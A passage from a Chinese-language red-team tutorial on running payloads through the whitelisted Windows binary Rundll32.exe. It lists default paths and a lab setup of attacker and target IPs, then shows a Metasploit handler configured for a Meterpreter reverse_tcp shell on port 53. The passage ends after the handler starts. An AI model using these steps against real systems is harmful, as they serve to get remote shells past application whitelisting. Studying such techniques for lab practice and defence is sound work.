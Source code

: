 ### 11.11 基于白名单Rundll32.exe执行payload（十一）

**Rundll32简介：**

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

**Windows 2003 默认位置：**

    C:\Windows\System32\rundll32.exe
    C:\Windows\SysWOW64\rundll32.exe
    
        

Windows 7 默认位置：

    C:\Windows\System32\rundll32.exe
    C:\Windows\SysWOW64\rundll32.exe
    
        

攻击机：-
192.168.1.4 Debian

靶机：-
192.168.1.119 Windows 2003-
192.168.1.5 Windows 7

**基于远程加载（1）：**

**配置攻击机msf：**-
注：x86 payload

    msf exploit(multi/handler) > show options 
    
    Module options (exploit/multi/handler):
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 
    
    Payload options (windows/meterpreter/reverse_tcp): 
    
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    
    LPORT 53 yes The listen port 
    
    Exploit target: 
    
    Id Name
    ‐‐ ‐‐‐‐
    0 Wildcard Target 
    
    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        
